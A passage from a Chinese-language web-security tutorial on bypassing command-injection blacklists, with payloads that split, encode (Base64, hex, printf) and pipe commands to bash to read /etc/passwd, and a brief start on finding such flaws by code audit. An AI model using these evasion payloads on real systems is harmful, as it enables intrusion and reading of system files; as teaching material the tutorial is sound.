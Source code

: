 
在 Linux bash 环境中可以使用花括号 {cmd,arg} 扩展来绕过：

这个依赖 bash 环境，并不是那么通用的方式，比如在 DVWA 靶场中就不适用。  
**（3）黑名单绕过**

绕过黑名单就是先探测哪些是黑名单，尽量避开不用，如果还不行可以考虑以下方法。

-   **shell 特殊变量**
    

先看下 shell 中的一些特殊变量：

![图片5.png](https://s0.lgstatic.com/i/image/M00/92/B4/Ciqc1GASi7mASyv4AAFgvRQXlzo668.png)  
比如 cat 命令被禁，利用上述特殊变量，我们就可以这样构造来绕过：

```
ca$1t /etc/passwd
cat$*t /etc/passwd
ca$@t /etc/passwd
```

-   **编码绕过**
    

直接将命令字符串转换成 URL 编码、hex 码、base 64 等编码，再转换回来执行：

```
# Base64编码命令“cat /etc/passwd”
echo "Y2F0IC9ldGMvcGFzc3dk"|base64 -d|bash
# Hex编码命令“cat /etc/passwd”
echo "636174202f6574632f706173737764"|xxd -r -p|bash
$(printf "\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")
# URL编码
cat%20%2Fetc%2Fpasswd
```

-   **变量自定义**
    

将黑名单内容拆分到不同的变量，再拼接起来执行。

```
a=c;b=at;c="/etc/passwd";$a$b $c
```

-   **反斜杠**
    

反斜杠的作用就是转义，因此可用来拆分黑名单字符串，但又不影响结果。

-   **单双引号**
    

单双引号内的内容会被当作字符串处理，跟其他字符串可拼接出我们需要的命令行字符串。

### 挖掘命令注入漏洞

#### 1.代码审计

代码审计思路就是追踪污点（用户可控数据，如 Get、Post 数据等等）的传播，看是否未经限制就传递给命令执行函数（system、exec、shell\_ exec 等等）。
